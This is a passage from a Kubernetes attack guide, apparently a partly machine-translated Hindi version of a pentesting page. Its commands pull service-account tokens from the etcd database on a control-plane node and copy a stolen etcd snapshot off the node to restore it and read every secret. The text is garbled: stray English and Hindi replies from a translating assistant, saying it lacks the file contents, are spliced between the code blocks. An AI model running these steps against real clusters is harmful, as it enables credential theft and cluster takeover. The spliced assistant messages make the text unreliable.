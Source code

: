 **Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**
```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
I don't have the contents of src/pentesting-cloud/kubernetes-security/attacking-kubernetes-from-inside-a-pod.md. Please paste the markdown text you want translated to Hindi, and I'll translate it per your instructions.
```bash
data-dir=/var/lib/etcd
```
**etcd डेटाबेस में डेटा देखें:**
```bash
strings /var/lib/etcd/member/snap/db | less
```
**डेटाबेस से tokens निकालें और service account का नाम दिखाएँ**
```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```
**वही command, लेकिन कुछ greps ताकि केवल kube-system namespace में default token वापस मिले**
```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
I don't have the file contents. कृपया src/pentesting-cloud/kubernetes-security/attacking-kubernetes-from-inside-a-pod.md की Markdown सामग्री यहाँ पेस्ट करें — मैं इसे दिए गए निर्देशों के अनुसार HTML/Markdown टैग और कोड न छेड़ते हुए हिंदी में अनुवाद कर दूँगा।
```
1/registry/secrets/kube-system/default-token-d82kb | eyJhbGciOiJSUzI1NiIsImtpZCI6IkplRTc0X2ZP[REDACTED]
```
#### Read secrets from etcd 2 [from here](https://www.linkedin.com/posts/grahamhelton_want-to-hack-kubernetes-here-is-a-cheatsheet-activity-7241139106708164608-hLAC/?utm_source=share&utm_medium=member_android)

1. **`etcd`** database का snapshot बनाएं। अधिक जानकारी के लिए [**this script**](https://gist.github.com/grahamhelton/0740e1fc168f241d1286744a61a1e160) देखें।
2. अपनी पसंदीदा विधि से नोड से **`etcd`** snapshot को बाहर ट्रांसफर करें।
3. डेटाबेस को अनपैक करें:
```bash
mkdir -p restore ; etcdutl snapshot restore etcd-loot-backup.db \ --data-dir ./restore
```
4. अपने लोकल मशीन पर **`etcd`** शुरू करें और इसे चोरी किए गए snapshot का उपयोग करने के लिए सेट करें:
```bash
etcd \ --data-dir=./restore \ --initial-cluster=state=existing \ --snapshot='./etcd-loot-backup.db'

```
5. सभी secrets सूचीबद्ध करें:
```bash
etcdctl get "" --prefix --keys-only | grep secret
```
6. secfrets प्राप्त करें:
```bash
etcdctl get /registry/secrets/default/my-secret
```
### Static/Mirrored Pods की स्थिरता

